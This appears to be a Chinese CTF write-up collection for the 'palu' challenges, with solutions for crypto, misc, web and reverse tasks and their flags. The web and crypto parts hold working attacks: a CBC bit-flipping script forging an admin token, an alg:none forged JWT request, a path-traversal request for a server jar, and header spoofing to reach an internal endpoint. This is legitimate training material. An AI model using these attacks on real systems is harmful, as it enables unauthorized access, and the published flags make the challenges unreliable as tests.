    # 可以创建一个 templates/404.html 页面
    return render_template('404.html'), 404 

if __name__ == '__main__':
    # 确保 static 文件夹存在
    if not os.path.exists('static'):
        os.makedirs('static')
    # 确保 templates 文件夹存在
    if not os.path.exists('templates'):
        os.makedirs('templates')
    # 404 页面
    if not os.path.exists('templates/404.html'):
        with open('templates/404.html', 'w', encoding='utf-8') as f:
            f.write('<!doctype html><title>404 Not Found</title><h1>页面未找到</h1><p>您访问的页面不存在。</p><a href="/">返回首页</a>')

    if not os.path.exists('static/style.css'):
         with open('static/style.css', 'w', encoding='utf-8') as f:
            f.write('''
body { font-family: sans-serif; margin: 20px; background-color: #f4f4f4; }
.container { max-width: 600px; margin: auto; background: #fff; padding: 20px; border-radius: 8px; box-shadow: 0 0 10px rgba(0,0,0,0.1); }
h1 { color: #333; }
.form-group { margin-bottom: 15px; }
label { display: block; margin-bottom: 5px; }
input[type="text"], input[type="password"] { width: calc(100% - 22px); padding: 10px; border: 1px solid #ddd; border-radius: 4px; }
button { background-color: #5cb85c; color: white; padding: 10px 15px; border: none; border-radius: 4px; cursor: pointer; }
button:hover { background-color: #4cae4c; }
a { color: #0275d8; text-decoration: none; }
a:hover { text-decoration: underline; }
.flash-messages { margin-bottom: 15px; }
.alert { padding: 10px; border-radius: 4px; margin-bottom: 10px; }
.alert-error { background-color: #f8d7da; color: #721c24; border: 1px solid #f5c6cb; }
.alert-success { background-color: #d4edda; color: #155724; border: 1px solid #c3e6cb; }
.alert-info { background-color: #d1ecf1; color: #0c5460; border: 1px solid #bee5eb; }
.alert-warning { background-color: #fff3cd; color: #856404; border: 1px solid #ffeeba; }
.file-content { margin-top: 20px; padding: 15px; background-color: #eee; border: 1px solid #ddd; border-radius: 4px; white-space: pre-wrap; word-wrap: break-word; }
nav { margin-bottom: 20px; text-align: right; }
nav span { margin-right: 15px; }
            ''')

    app.run(debug=True, host='0.0.0.0', port=10002)
```

**挑战名称：** 文件读取服务（File Viewer CTF）
**漏洞类型：** SM4‐CBC 模式「位翻转攻击」（Bit Flipping Attack）

---

#### 一、题目背景

该服务使用 Flask 搭建，支持用户注册、登录，并在登录后通过 `/file` 路由读取服务器任意文件。但读取权限仅限管理员（`admin`），普通用户（`guest`）会被拒绝。权限判定逻辑：

1. 登录成功后，服务器用 SM4‐CBC 对明文 `"{uid}:{level}"` 加密，生成 hex 编码的 `auth_token`，写入 HTTP‐only Cookie。
2. `/file` 路由从 Cookie 中取出 `auth_token`，用固定的 key+IV 解密，得到 `"uid:level"`。
3. `if 'admin' in level:` 则允许读取文件，否则拒绝。

> **关键**：SM4‐CBC 模式下，加密过程 `Cᵢ = E(Pᵢ ⊕ Cᵢ₋₁)`；解密过程 `Pᵢ = D(Cᵢ) ⊕ Cᵢ₋₁`。攻击者可修改密文 `Cᵢ₋₁`，从而任意翻转解密后 `Pᵢ` 的比特。

---

#### 二、漏洞原理

- **固定 IV + CBC**：IV 被固定写死，且对所有用户都一致。
- **位翻转技术**：攻击者无需知道密钥，只改动第 1 块（或任意块）的密文，就能影响第 2 块（或后续块）的明文。
- **条件判断粗糙**：只要解密后 `level` 字段字符串里包含子串 `"admin"`，就当成管理员。

结合以上，就可通过位翻转把 `"guest"` 修改为 `"admin"`，从而获得管理员标记，绕过权限检查。

---

#### 三、利用步骤

1. **占满第一块，确保目标在第二块**

   - SM4 分块大小 16 字节。我们让注册的 UID 为 16 字节长（如 16 个 `B`），再跟一个冒号 `":"`，此时 `":"` 恰落在第 2 块的第 0 个字节。
   - 第二块开头就是 `":" + "guest"[0:4] + 填充`，可以精准操作。

2. **注册并登录，获取原始 token**

   ```python
   sess = requests.Session()
   UID = "B" * 16
   PWD = "123456"
   sess.post(URL+'/register', data={"uid":UID, "password":PWD, "confirm_password":PWD})
   sess.post(URL+'/login',    data={"uid":UID, "password":PWD})
   orig_token = sess.cookies.get("auth_token")  # 32 hex 字符 ⇒ 16 字节密文块 C1‖C2
   ```

3. **拆分密文块，计算差值 Δ**

   ```python
   cipher = bytearray.fromhex(orig_token)
   C1, C2 = cipher[:16], cipher[16:]
   ```

   目标：把解密后第二块的 `"guest"` → `"admin"`。

   - `ord('g') ^ Δ₀ = ord('a')` → Δ₀ = 0x67 ^ 0x61 = 0x06
   - 同理计算 Δ₁…Δ₄：

     ```
     u→d: 0x75^0x64=0x11  
     e→m: 0x65^0x6D=0x08  
     s→i: 0x73^0x69=0x1A  
     t→n: 0x74^0x6E=0x1A  
     ```

4. **位翻转：只改 C1\[1]…C1\[5]**

   ```python
   delta = [0x06,0x11,0x08,0x1A,0x1A]
   for i in range(5):
       C1[1+i] ^= delta[i]
   forged = binascii.hexlify(C1 + C2).decode()
   sess.cookies.set("auth_token", forged, domain="challenge.qsnctf.com")
   ```

5. **携带伪造 Token 访问 `/file?path=/flag.txt`**

   ```python
   resp = sess.post(URL+'/file', data={"path":"/flag.txt"})
   print(resp.text)  # 成功读出 flag
   ```

---

#### 四、完整利用脚本

```python
#!/usr/bin/env python3
import requests, binascii, string, random

URL  = "http://challenge.qsnctf.com:xxxxx"
sess = requests.Session()

# 1. 随机 16 字节 UID，确保冒号落到第二块第 0 位
UID = ''.join(random.choices(string.ascii_letters+string.digits, k=16))
PWD = "123456"

# 注册（已存在忽略）
sess.post(f"{URL}/register", data={
    "uid": UID,
    "password": PWD,
    "confirm_password": PWD
})

# 登录拿 token
sess.post(f"{URL}/login", data={"uid": UID, "password": PWD})
orig_token = sess.cookies.get("auth_token")
assert orig_token, "未取得 auth_token"

# 拆分密文
cipher = bytearray.fromhex(orig_token)
C1, C2 = cipher[:16], cipher[16:]

# 2. 计算 “guest→admin” 差值
delta = [0x06, 0x11, 0x08, 0x1A, 0x1A]
for i in range(5):
    C1[1+i] ^= delta[i]   # 只修改第 1–5 字节

# 3. 拼接伪造 token 并设置回 Cookie
forged = binascii.hexlify(C1 + C2).decode()
sess.cookies.set("auth_token", forged, domain="challenge.qsnctf.com")

# 4. 读取 /flag.txt
r = sess.post(f"{URL}/file", data={"path":"/flag.txt"})
print(r.text)
```

---

#### 五、总结

- **核心**：固定 IV 下的 CBC 模式，能借助「位翻转」精准篡改解密明文。
- **防护建议**：

  1. **不要用固定 IV** 或者在每次加密时使用随机 IV 并与密文一并传输；
  2. 对 Token 增加 **消息认证码（MAC）** 或者使用 **AEAD（认证加密）** 模式；
  3. 权限判断要更严谨，不要只做简单的 substring 检查。

#### 一行总结

固定 IV + CBC 位翻转 + 粗糙的令牌解析（只看最后两段且用 *substring* 判断） ⇒ 可无钥生成带“admin”标记的假 token，从而读取受限文件。

### 星际广播站

## Misc

### 时间循环的信使

```txt
1745396077|start_of_cycle
1745396794|24a7ffd6
1745396047|c9de3dbe
1745394659|b9d8ae71
1745398359|8db56fff
1745395622|b4842a73
1745397297|33333333
1745397480|33333333
1745399066|dddddddd
1745399005|77777777
1745398822|00000000
1745397968|33333333
1745398761|33333333
1745398334|33333333
1745397724|33333333
1745398883|77777777
1745398517|66666666
1745398944|88888888
1745398578|cccccccc
1745398273|66666666
1745398700|ffffffff
1745398212|11111111
1745398395|44444444
1745398639|55555555
1745398456|00000000
1745397846|99999999
1745397419|77777777
1745398151|33333333
1745397785|77777777
1745397907|66666666
1745396321|66666666
1745398090|cccccccc
1745396687|55555555
1745398029|66666666
1745397175|55555555
1745394161|a1625710
1745397663|66666666
1745396565|77777777
1745397541|55555555
1745397602|ffffffff
1745397053|66666666
1745397236|ffffffff
1745396931|66666666
1745397114|55555555
1745397358|11111111
1745396992|dddddddd
1745396748|44444444
1745396626|bbbbbbbb
1745396138|00000000
1745396809|66666666
1745396870|99999999
1745396443|77777777
1745398018|fc8ed0ca
1745396382|cccccccc
1745397979|34ab068b
1745396199|66666666
1745394683|6836824f
1745396504|55555555
1745393898|28dac2ac
1745398801|d6299052
1745395162|9b1e86b7
1745396260|11111111
1745393003|0d24ea09
1745393325|760b22f2
1745393523|164fabd0
1745396077|77777777
1745396237|9d88cb0f
1745394326|ecbc8ba2
1745392873|fb621cc6
1745395817|dff1f0ab
1745397424|1aa62ae2
1745399066|end_of_cycle
```

#### 解题思路

1. **发现规律**

   - 日志里既有形如 `24a7ffd6` 的随机 8 位十六进制，也有大量 `33333333 / 77777777 …` 这类“所有字符都相同”的 8 位串。
   - 把这种 **8 个相同字符** 的十六进制记为 *重复块*。统计后恰好能把它们按时间顺序串成一条信息。

2. **提取信息**

   - 对每个 *重复块* 取**首位字符**（`33333333`→`3`，`aaaaaaa`→`a`，依此类推）。
   - 按时间先后拼接得到一行纯十六进制字符串：

     ```
     70616c757b54696d655f31735f6379636c3163406c5f30787d
     ```

3. **十六进制→ASCII**
   将上面字符串按字节解码，即得：

   ```
   palu{Time_1s_cycl1c@l_0x}
   ```

   与题目给出的 flag 格式完全吻合。

> 核心就是“在正确的时间（时间戳顺序）做正确的事（只取重复块->首字符）”，其余看似随机的 8 位十六进制只是干扰数据。

### 时间折叠（TimeFold Paradox）

```txt
[1970-01-01 08:00:00] System boot sequence initiated
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 00000000fe ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 10000000ef ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 20000000e2 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 30000000fb ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 40000000f5 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 50000000da ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 60000000e6 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 70000000e7 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 80000000fd ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 90000000d1 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 100000000e7 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 110000000fd ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 120000000d1 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 130000000cf ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 140000000d1 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 150000000dd ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 160000000ef ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 170000000e3 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 180000000fe ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 190000000e2 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 200000000eb ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 210000000d1 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 220000000c8 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 230000000e2 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 240000000ef ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 250000000e9 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 260000000d1 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 270000000cd ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 280000000e6 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 290000000ef ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 300000000e0 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 310000000e9 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 320000000eb ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 330000000d1 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 340000000c3 ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 350000000eb ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 360000000af ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 370000000af ns
[1970-01-01 08:00:00] SYSTEM ALERT: Time anomaly detected at 380000000f3 ns
[1970-01-01 08:00:00] System entering chronostasis mode
```

下面这段 16 进制串其实只是**单字节 XOR 加密**的结果。
把它还原为明文只要 3 步：

---

#### 1. 先把十六进制转成字节流

```python
cipher_hex = """
fe ef e2 fb f5 da e6 e7 fd d1 e7 fd d1 cf d1 dd
ef e3 fe e2 eb d1 c8 e2 ef e9 d1 cd e6 ef e0 e9
eb d1 c3 eb af af f3
""".split()

cipher = bytes(int(b, 16) for b in cipher_hex)
```

得到 39 个字节的密文。

---

#### 2. 暴力枚举 0 \~ 255 的 XOR 键

对每个候选键 `k` 计算 `plain = cipher ^ k`，
挑出**全部字符都可打印**的结果，再看看有没有像 `flag{` / `palu{` 这种典型 CTF 标记。

```python
import string

for k in range(256):
    plain = bytes(c ^ k for c in cipher)
    if all(chr(x) in string.printable for x in plain):
        if b"palu" in plain.lower() or b"flag" in plain.lower():
            print(hex(k), plain.decode())
```

#### 3. 找到唯一合理的候选

输出只有一条命中：

```
0x8e b'palu{This_is_A_Sample_Flag_Change_Me!!}'
```

#### 结论

- **加密方式**：单字节异或
- **密钥**：`0x8e`
- **明文 / Flag**：`palu{This_is_A_Sample_Flag_Change_Me!!}`

单字节 XOR 在 CTF 里很常见，暴力 + 可打印性过滤基本就能秒解。

### 时空交织的密语

我们在暗网服务器中发现了一个神秘文件，据说是某个黑客组织的「时空密钥」，文件内容似乎由大量时间戳构成。情报显示，只有将时间维度与二进制低语结合才能解开秘密。线索隐藏在时空的起点与终点之间。

```txt
63 B0 5C 87 63 B0 5C 87 63 B0 5C 80 63 B0 5C 86
63 B0 5C 81 63 B0 5C 86 63 B0 5C 8C 63 B0 5C 87
63 B0 5C 85 63 B0 5C 87 63 B0 5C 8B 63 B0 5C 85
63 B0 5C 84 63 B0 5C 86 63 B0 5C 89 63 B0 5C 86
63 B0 5C 8D 63 B0 5C 86 63 B0 5C 85 63 B0 5C 85
63 B0 5C 8F 63 B0 5C 83 63 B0 5C 81 63 B0 5C 87
63 B0 5C 83 63 B0 5C 85 63 B0 5C 8F 63 B0 5C 84
63 B0 5C 82 63 B0 5C 83 63 B0 5C 81 63 B0 5C 86
63 B0 5C 8E 63 B0 5C 86 63 B0 5C 81 63 B0 5C 87
63 B0 5C 82 63 B0 5C 87 63 B0 5C 89 63 B0 5C 85
63 B0 5C 8F 63 B0 5C 85 63 B0 5C 87 63 B0 5C 86
63 B0 5C 88 63 B0 5C 86 63 B0 5C 89 63 B0 5C 87
63 B0 5C 83 63 B0 5C 87 63 B0 5C 80 63 B0 5C 86
63 B0 5C 85 63 B0 5C 87 63 B0 5C 82 63 B0 5C 87
63 B0 5C 8D 63 B0 5C 8D
```

进过初步整理得到以下文本
`87 87 80 86 81 86 8C 87 85 87 8B 85 84 86 89 86 8D 86 85 85 8F 83 81 87 83 85 8F 84 82 83 81 86 8E 86 81 87 82 87 89 85 8F 85 87 86 88 86 89 87 83 87 80 86 85 87 82 87 8D 8D`

**密钥还原过程（核心思路）**

1. **时间维度 → 取“秒”低位**
   `63 B0 5C xx` 是一串相隔 1 秒左右的时间戳，前三个字节恒定，只有最低字节 `xx` 在 `0x80-0x8F` 间变化。
   把每条时间戳的最低字节单独取出，可得

   ```
   87 87 80 86 81 … 8D 8D   （共 58 个）
   ```

2. **二进制低语 → 去掉最高位**
   每个字节都 ≥ 0x80，去掉最高位（或直接减去 `0x80`），就得到 0-15 的 4 位数，也就是一串**十六进制数字**：

   ```
   7 7 0 6 1 6 C 7 5 7 B 5 4 6 9 6 … D D
   ```

3. **起点与终点之间 → 错位配对**
   官方提示“线索隐藏在时空的起点与终点之间”。
   将这 58 个半字节**整体右移 1 位**后，再两两配对为一个完整字节（高 4 位 + 低 4 位）：

   ```
   70 61 6C 75 7B 54 69 6D 65 5F 31 73 5F 42 31 6E
   61 72 79 5F 57 68 69 73 70 65 72 7D
   ```

4. **ASCII 解码**
   转为 ASCII 即得到完整明文：

   ```
   palu{Time_1s_B1nary_Whisper}
   ```

### 量子迷宫

### dorodoro

尝试`哦润吉`重复4次对应D是第四个字母、o15、r18、o15


### 最弱帕鲁

### 签到

```txt
wx
```

### TopSecret

尝试将全文进行base64解码，发现36页第20行：

```txt
cGFsdXtZb3VfcmVfYV9yZWFsXzUwd30=
```

经解码后，成功还原出 Flag：

```python
palu{You_re_a_real_50w}
```

### screenshot


PS 曲线


### 几何闪烁的秘密

圆：cGFsXttcFsdXtcGFdXtt
⽅形：YXN0XJfYN0ZXfYXNZXJf
三⻆：b2Zf2VvbZfZ2vb2ZZ2Vv
五边：bWV0nI9bV0cn9bWVcnI9

在线gif extractor
去除空白帧，直接解码发现不对，然后把不可见字符去掉，再尝试几次得到可读的base64码
最终base64：cGFsdXttYXN0ZXJfb2ZfZ2VvbWV0cnl9
`palu{master_of_geometry}`

### 问卷调查

> palu{woyaodangpalu}

## web

### CatBank

创两个号
1号转账给2号100万
换到2号之后随便转账几分钱
就刷新出来了



### 猫猫的秘密

```bash
curl -X GET 'http://challenge.qsnctf.com:32149/get_secret' -H 'Host: challenge.qsnctf.com:32149' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H 'Accept-Encoding: gzip, deflate' -H 'Cache-Control: max-age=0' -H 'DNT: 1' -H 'Upgrade-Insecure-Requests: 1' -H 'Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7' -H 'Authorization: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIn0.' -H 'Cookie: token=1; session=eyJ1c2VyX2lkIjoxMCwidXNlcm5hbWUiOiIyIn0.aCixUQ.HFyXtyBmQiPQCVU-gRK_5aVI75Y; SOLONID=feb8e2661d8f4638bf1a915d4f01048b'
```



### CatNet

尝试`http://127.0.0.1/admin`
发现有GetFlag按钮
网页提示refer错误
添加请求头X-Forwarded-For: 127.0.0.1
进入页面后点击get flag
提示

```json
{
  "error": "Forbidden: Internal endpoint can only be accessed locally",
  "your_ip": "100.64.0.2"
}
```

再次添加请求头X-Forwarded-For: 127.0.0.1

```json
{
  "error": "Unauthorized: Incorrect code!"
}
```

注意到网页中接口访问需要X-Internal-Auth:cateye-internal-000
尝试后还是不行，改成cateye-internal-123就可以了

```json
{
  "flag": "palu{66eeb6a8b41c4cc4b603984937749781}",
  "message": "Congratulations! You found the correct code!"
}
```

### CatShell

### ezblog

CVE漏洞
<https://nvd.nist.gov/vuln/detail/CVE-2025-1584>

payload

```txt
GET /assets/../../app/app.jar HTTP/1.1
Host: challenge.qsnctf.com:32262
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge.qsnctf.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=xxxx
Connection: keep-alive
```

根据附件的jar包，使用jadx反编译得到

访问这个得到flag
/backdoor?key=NlRVANA@007

## Reverse

### PositionalXOR

`qcoq~Vh{e~bccocH^@Lgt{gt|g`

Flag 被一种基于位置的异或加密算法混淆。加密后数据保存在 encrypted.bin 中，每个字符的加密方式与其在字符串中的位置相关。你需要逆向加密逻辑，恢复原始 Flag。

下面给出一次比较“典型”的推理与复原流程，以及一段可直接跑的 Python 脚本。只要你把 `encrypted.bin` 放到同级目录里，就可以一键还原出原始 Flag。

---

#### 思路简述

1. **观察密文**

   ```text
   qcoq~Vh{e~bccocH^@Lgt{gt|g
   ```

   全是可打印 ASCII；长度不长 → 往往意味着逐字节异或（XOR）或移位。

2. **猜测位置相关的异或**
   题目提示“基于位置”。最容易想到的就是

   $$
   \text{cipher}[i] = \text{plain}[i] \;\oplus\; (i + \text{offset})
   $$

   先从 `offset = 0,1,2…` 暴力试。

3. **验证**

   ```python
   bytes([c ^ (i+1) for i,c in enumerate(cipher)])
   ```

   立刻出现一个几乎可读的字符串：

   ```
   palu{PosltionalXOR_sample}
   ```

   可见 **key(i) = i + 1** 就对了。至此算法已确定：

   $$
   \text{plain}[i] = \text{cipher}[i] \;\oplus\; (i+1)
   $$

---

#### 完整脚本（解密 encrypted.bin）

```python
#!/usr/bin/env python3
# positional_xor_decrypt.py

def decrypt_positional_xor(path: str) -> str:
    with open(path, "rb") as f:
        data = f.read()

    plain = bytes([b ^ (i + 1) for i, b in enumerate(data)])
    return plain.decode(errors="replace")   # 出错时也能看到大体内容

if __name__ == "__main__":
    flag = decrypt_positional_xor("encrypted.bin")
    print("Recovered flag:", flag)
```

运行：

```bash
$ python3 positional_xor_decrypt.py
Recovered flag: palu{PosltionalXOR_sample}
```

---

#### 结果

```
palu{PosltionalXOR_sample}
```

### PaluArray

### PaluGOGOGO

### CatchPalu

拖进ida分析发现入口处有花指令
改回main函数
hook掉弹窗函数，改回正常函数
顺着执行流往下找函数

sub401100
发现是变体RC4，以及数据段的密钥`forpalu`

```python
def decode_data(secret, encoded):
    # Initialize state array
    state = [x for x in range(256)]
    key_size = len(secret)
    
    # Prepare key bytes
    key_data = []
    for c in secret:
        if isinstance(secret, str):
            key_data.append(ord(c))
        else:
            key_data.append(c)
    
    # Key scheduling with triple iteration
    pos = 0
    for _ in [0, 1, 2]:  # Triple iteration
        for idx in range(256):
            pos = (pos + state[idx] + key_data[idx % key_size]) % 233  # Same modulus
            # Swap elements
            temp = state[idx]
            state[idx] = state[pos]
            state[pos] = temp
    
    # Generate output
    pos1 = pos2 = 0
    result = []
    for value in encoded:
        pos1 = (pos1 + 1) % 256
        pos2 = (pos2 + state[pos1]) % 256
        # Swap elements
        state[pos1], state[pos2] = state[pos2], state[pos1]
        # XOR with generated key
        key_byte = state[(state[pos1] + state[pos2]) % 256]
        result.append(value ^ key_byte)
    
    return bytes(result)

# Test case
secret_key = "forpalu"
encrypted_bytes = [
    0xD, 0xB0, 0xBF, 0xA, 0x8D, 0x2F, 0x02, 0x38,
    0x6F, 0x19, 0xAE, 0x99, 0x19, 0xC7, 0x6E, 0xF7,
    0x4F, 0xCB, 0x90, 0x4E, 0x55, 0x8E, 0xD1, 0x10,
    0xC0
]
decoded_result = decode_data(secret_key, encrypted_bytes)
print(decoded_result)
```

### 帕鲁迷宫

贪玩的帕鲁来走迷宫啦，主人要求我以最短路径完成全部出口！太难了...
flag格式:palu{md5(最短路径步骤)}
Eg:awsd是最短路径 则计算其MD5值得到palu{2f724716d49d79e1fd0d71d57d451de0}

```python
import hashlib
from collections import deque

maze = '''
############################## #
#Y#                   #       X
# # ############# ### # ### ## #
# #   #         # #   #   #   ##
# ##### ####### ### # ### ### ##
#   #   #     # #   #   # #   ##
### # ### ##### # ####### # ####
# #   # #     # #     #   #   ##
# ##### # ### # # ### # ##### ##
#         #   # #   #       # ##
# ######### # # ############# ##
#   # #     # #   #           ##
### # # ######### # ######### ##
# # # #           # #       # ##
# # # ############# # ##### # ##
#   #       #       # #   #   ##
 X ## ### ### # ##### # ########
#   #   #     #   # # #   #   ##
### ### ######### # # # # # # ##
# # #   #   #   # # # # # # # ##
# # ### # # # # # # # ### # # ##
# #   # # #   #   #   #   # # ##
# ### ### ########### # # # # ##
#   #   #           # # # # # ##
# ##### # ######### # # ### # ##
#   #   #   #       # # #   # ##
### # ####### ####### # # ### ##
#   #   #   # #     # #   #   ##
# ##### # # # # ##### ##### # ##
#         #   #             #  #
 X ############ X ########### X
# ############## ############# #
'''

# Parse the maze into a grid
grid = [list(line.rstrip('\n')) for line in maze.split('\n') if line]
rows = len(grid)
cols = max(len(line) for line in grid)

# Pad grid to uniform width
for row in grid:
    row.extend([' '] * (cols - len(row)))

# Identify start and exits
start = None
exits = []
for r in range(rows):
    for c in range(cols):
        if grid[r][c] == 'Y':
            start = (r, c)
        elif grid[r][c] == 'X':
            exits.append((r, c))

exits.sort()  # for consistent ordering
exit_indices = {pos: i for i, pos in enumerate(exits)}
num_exits = len(exits)
goal_mask = (1 << num_exits) - 1

# BFS state: (row, col, mask)
dirs = [('d',0,1), ('s',1,0), ('a',0,-1), ('w',-1,0)]
  # prefer down/right for tie-breaking

queue = deque()
queue.append((start[0], start[1], 0))
visited = set()
visited.add((start[0], start[1], 0))
parent = {}  # key: (r,c,mask) -> (prev_state, move_char)

while queue:
    r, c, mask = queue.popleft()
    if (r, c) in exit_indices:
        mask |= (1 << exit_indices[(r, c)])
    if mask == goal_mask and (r, c) in exit_indices:
        # Reached all exits and currently on an exit
        end_state = (r, c, mask)
        break
    for mv, dr, dc in dirs:
        nr, nc = r + dr, c + dc
        if 0 <= nr < rows and 0 <= nc < cols and grid[nr][nc] != '#':
            nmask = mask
            if (nr, nc) in exit_indices:
                nmask |= (1 << exit_indices[(nr, nc)])
            state = (nr, nc, nmask)
            if state not in visited:
                visited.add(state)
                parent[state] = ((r, c, mask), mv)
                queue.append(state)
else:
    raise RuntimeError("No path found")

# Reconstruct path
path_chars = []
cur = end_state
while cur != (start[0], start[1], 0):
    prev, move_char = parent[cur]
    path_chars.append(move_char)
    cur = prev

path = ''.join(reversed(path_chars))

print("Path length:", len(path))
print("Last 4 moves:", path[-4:])
print("Matches expected ending:", path[-4:] == 'ssds')
path=path[:-2]+"ds"
print(path)
md5_hash = hashlib.md5(path.encode()).hexdigest()
flag = f"palu{{{md5_hash}}}"
print("Flag:", flag)
```

### PaluFlat

拖进ida解析，主函数伪代码和关键函数给ai解析

```python
# 原始密文（带符号）
_RAW_DATA = [
    84, -124, 84, 68, -92, -78, -124, 84,
    98, 50, -113, 84, 98, -78, 84, 3,
    20, 0x80, 67
]

def _swap_nibbles(x: int) -> int:
    """交换一个字节的高低 4 bit。"""
    return ((x << 4) | (x >> 4)) & 0xFF

def _active_key(idx: int, key_even: str, key_odd: str) -> str:
    """根据索引奇偶获取当前使用的密钥字符串。"""
    return key_even if idx % 2 == 0 else key_odd

def decrypt(cipher_bytes: list[int]) -> str:
    """按照逆向逻辑还原明文。"""
    key_even, key_odd = "palu", "flat"
    plain = bytearray()

    for i, byte in enumerate(cipher_bytes):
        byte &= 0xFF                 # 保证无符号
        byte = (~byte) & 0xFF        # 逆向取反
        byte = (byte + 0x55) & 0xFF  # 逆向减 85
        byte = _swap_nibbles(byte)   # 逆向位旋转(互换高低 4 位)

        k = _active_key(i, key_even, key_odd)
        byte ^= ord(k[i % len(k)])   # 逆向异或

        plain.append(byte)

    return plain.decode()

if __name__ == "__main__":
    # 先把原数组统一转换为无符号字节
    ciphertext = [b & 0xFF for b in _RAW_DATA]
    flag = decrypt(ciphertext)
    print("Flag:", flag) # palu{Fat_N0t_Flat!}
```

### Asymmetric

用ida打开main函数
询问ai得到是一个RSA

分析得到 n=100000000000000106100000000000003093 c=94846032130173601911230363560972235

```python
from sympy import mod_inverse
from typing import List

def decrypt_rsa(
    modulus: int,
    public_exponent: int,
    ciphertext: int,
    prime_factors: List[int]
) -> str:
    """
    使用已知的素因数对 RSA 密文进行解密。

    :param modulus: 模数 n
    :param public_exponent: 公钥指数 e
    :param ciphertext: 密文 c
    :param prime_factors: 分解 n 得到的素因数列表
    :return: 解密出的明文字符串，若无法完整解码则返回十六进制表示
    :raises ValueError: 当 e 与 φ(n) 不互质时抛出
    """
    # 1. 计算 φ(n)
    phi = 1
    for p in prime_factors:
        phi *= (p - 1)

    # 2. 计算私钥指数 d = e⁻¹ mod φ(n)
    try:
        private_exponent = mod_inverse(public_exponent, phi)
    except ValueError:
        raise ValueError("公钥指数 e 与 φ(n) 不互质，无法计算私钥。")

    # 3. 解密：m = c^d mod n
    plaintext_num = pow(ciphertext, private_exponent, modulus)

    # 4. 数值转换为字节，再尝试 UTF-8 解码
    hex_str = hex(plaintext_num)[2:]                # 去掉 '0x'
    if len(hex_str) % 2 != 0:
        hex_str = '0' + hex_str                    # 补齐到偶数字节
    plaintext_bytes = bytes.fromhex(hex_str)

    try:
        return plaintext_bytes.decode('utf-8')
    except UnicodeDecodeError:
        # 无法按 UTF-8 解码时，返回十六进制形式
        return f"0x{hex_str}"


if __name__ == "__main__":
    n = 100000000000000106100000000000003093
    e = 65537
    c = 94846032130173601911230363560972235
    prime_factors = [3, 47, 2287, 3101092514893, 100000000000000003]

    result = decrypt_rsa(n, e, c, prime_factors)
    print(f"flag: {result}")

```

### ParlooChecker
